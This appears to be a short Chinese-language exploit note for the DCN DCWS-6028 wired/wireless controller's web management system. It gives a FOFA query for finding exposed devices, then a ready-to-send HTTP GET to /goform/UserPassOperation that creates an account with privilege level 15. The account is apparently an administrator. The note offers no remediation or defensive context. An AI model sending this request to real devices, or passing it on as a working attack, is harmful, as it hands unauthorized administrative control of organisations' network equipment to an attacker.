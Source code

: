 ## DCN有线无线智能一体化控制器WEB管理系统



## fofa

```
app="DCN-DCWS-6028"
```
![image](https://github.com/user-attachments/assets/dd1e4160-ee5a-488b-a33c-232ff875f88a)

## poc

```
GET /goform/UserPassOperation?user=admin333&password=123456&userpriority=15&operation=1 HTTP/1.1
Host: your-ip
Content-Length: 2
```



![image-20240525204429235](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405252044322.png)
